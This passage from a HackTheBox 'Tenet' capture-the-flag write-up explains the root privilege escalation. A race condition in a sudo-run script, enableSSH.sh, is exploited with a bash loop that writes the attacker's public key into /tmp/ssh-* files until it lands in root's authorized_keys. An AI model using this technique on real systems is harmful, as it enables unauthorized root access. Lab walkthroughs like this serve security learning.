 Oh, here comes the second fun part, which is a `Race Condition`

Let me explain what this script actually does:
- First creates a randomly-generated named file format of `/tmp/ssh-XXXXXXXX`. Think like you can add change each of "X" characters in the name with any other random character.
- Then writes `root@ubuntu`'s public ssh key inside that file.
- After that writes the content of `/tmp/ssh-XXXXXXXX` -which now has the public ssh key of `root` inside it- to `/root/.ssh/authorized_keys`.
- And finally deletes the `/tmp/ssh-XXXXXXXX` file.

Now the thing is: There is a race condition here because we can change content of the file created with a simple bash looop before the script gets executed the next line which is adding the content to /root/authorized_keys.

Through this, we can be able to `ssh` into `root@tenet.htb` without password or any other thing.

## Getting the `root` shell
__Attention__: Make sure you have __two__ `ssh` __connection__ to the box as the user `neil`.

#### Steps to get `root`:
##### #1 Generate a public-private ssh key pair.
Run in your localhost, do not type anything as password or file name, just press _Enter_.
```bash
┌──(root💀f4T1H)-[~/hackthebox/tenet]
└─> ssh-keygen       
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Created directory '/root/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
```

##### #2 Set a loop
We need to write our public key immediately to the `/tmp/ssh-XXXXXXXX` file when `/usr/local/bin/enableSSH.sh` is running. Because the file is both being creaated and deleted by `/usr/local/bin/enableSSH.sh`. That means we can't execute write command by hand on time, we need a loop to make things rapidly.

Run this in one of your ssh connections.

__Attention__: Make sure you copied your public ssh key from `~/.ssh/id_rsa.pub`.
```bash
neil@tenet:~$ while true; do echo 'YOUR_PUBLIC_SSH_KEY_HERE' | tee /tmp/ssh-* > /dev/null;done
```

##### #3 Run the script
Now we all set, run the script in the other of your ssh connections with sudo privileges and write our public ssh key into `root`'s `authorized_keys`.

__Attention__: You need to run the script 7-8 times.
```bash
neil@tenet:~$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:~$
```
#### #4 Connect to box via ssh as `root`
If you've done all the steps that I write, we are now able to `ssh` `root@tenet.htb`.

